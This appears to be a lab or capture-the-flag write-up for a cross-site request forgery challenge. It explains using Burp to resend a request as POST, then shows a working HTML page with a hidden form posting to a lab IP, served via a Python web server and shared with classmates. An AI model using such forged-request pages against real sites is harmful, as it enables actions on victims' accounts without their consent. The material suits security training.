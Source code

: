 # Challenge
To complete this challenge, you must get your CSRF counter above 0. Once The request to increment your counter is as follows;

```

POST /user/csrfchallengetwo/plusplus
```
With the following parameter; `userId = 47887913a0f9573d479fbd600fa02ac6ef0575bd`

Where exampleId is the ID of the user who's CSRF counter is being incremented. 

You can use the CSRF forum below to post a message with a HTML Page.

---
# Resolve
Same as challenge 1 but using the `POST` request.

So the link in image will be:
```http
https://10.63.253.66/user/csrfchallengetwo/plusplus
?userId=47887913a0f9573d479fbd600fa02ac6ef0575bd
```
Send this link to another user to visit. but if we using the browser, the method is `GET`. So we need to capture the request and using Burp to intercept it and change the method to `POST`.
![csrf2](img/csrf2.png)

Return to our session. The challenge is complete.

This is the fast way to bypass this challenge. But in real life we need to put the payload on HTML page so the other user can interactive.
Lets try to make simple HTML webpage.
[https://owasp.org/www-community/attacks/csrf](https://owasp.org/www-community/attacks/csrf)
[https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

So i decide to build a web server that serve the html page. 
```sh
python3 -m http.server 80
```

And create the html file `csrf2.html` will be like this:
```html
<!doctype html>
<html>
<head>
	<title>Our Funky HTML Page</title>
	<meta name="description" content="Our first page">
	<meta name="keywords" content="html tutorial template">
</head>
<body>

	<form action="https://10.63.253.66/user/csrfchallengetwo/plusplus" method="POST">
		<input type="hidden" name="userid" value="47887913a0f9573d479fbd600fa02ac6ef0575bd"/>
		<input type="submit" value="View my pictures"/>
	</form>
</body>
</html>
```
Final, we will put the url of the HTML file to the link and share with classmate (or give direct to them to access).
```url
http://172.16.177.131/csrf2.html
```
After they access to your link then the challenge is solved.

